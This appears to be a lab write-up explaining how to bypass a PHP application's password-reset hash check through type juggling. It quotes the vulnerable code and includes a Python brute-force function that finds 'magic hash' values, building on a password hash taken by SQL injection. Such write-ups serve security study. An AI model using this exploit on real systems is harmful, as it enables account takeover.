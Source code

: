 # Extra Mile

During the validation of the access link, we find that the `h` parameter of our request is compared against the `$hash_bit` variable. Since that `$hash_bit` variable is dependent on our request’s `g` value, we can brute force a `g` value by using the password hash obtained through SQL injection. 

In order to reach the portion of the code that updates the password hash to a hash of our choosing, we have to bypass this portion of code:  

```php
$sql    = "SELECT password, email FROM %smembers WHERE member_id=%d";
$row = queryDB($sql, array(TABLE_PREFIX, $_REQUEST['id']), TRUE);
if (isset($row['email']) && $row['email'] != '') {
        $email = $row['email'];
        $hash = sha1($_REQUEST['id'] + $_REQUEST['g'] + $row['password']);
        $hash_bit = substr($hash, 5, 15);
        if ($_REQUEST['h'] != $hash_bit) {
                $msg->addError('INVALID_LINK');
                $savant->display('password_reminder_feedback.tmpl.php');
        } else if (($_REQUEST['h'] == $hash_bit) && !isset($_POST['form_change'])) {
                $savant->assign('id', $_REQUEST['id']);
                $savant->assign('g', $_REQUEST['g']);
                $savant->assign('h', $_REQUEST['h']);
                $savant->display('password_change.tmpl.php');
        }
} else {
        $msg->addError('INVALID_LINK');
        $savant->display('password_reminder_feedback.tmpl.php');
        exit;        
}
```

The `+` operation interprets the password value as an integer, thus we use regex to extract the digit-prefix of the hash and then use its value to generate our SHA1 hash. Below is the code to generate a working value. 

```php
# Generate g value to perform type juggling injection
def get_code(id, password):
    print("Searching for valid code......")
    
    pass_prefix = re.findall("^\d+",password)
    if pass_prefix == []: pass_prefix = 0
    else: pass_prefix = pass_prefix[0] 
    print(f"Found password prefix {pass_prefix}")

    for g in range(1,1000000):

        raw_string = str(id + g + int(pass_prefix))
        hash = hashlib.sha1(raw_string.encode()).hexdigest()
        hash_prefix = hash[5:20]

        if re.match(r'0+[eE]\d+$', hash_prefix):
            print(f"Valid hash: {hash_prefix}")
            print(f"Raw String: {raw_string}")
            return g

    raise Exception("No valid email found!")
    return ""
```

We can also use an online approach to brute forcing, although this may take significantly longer.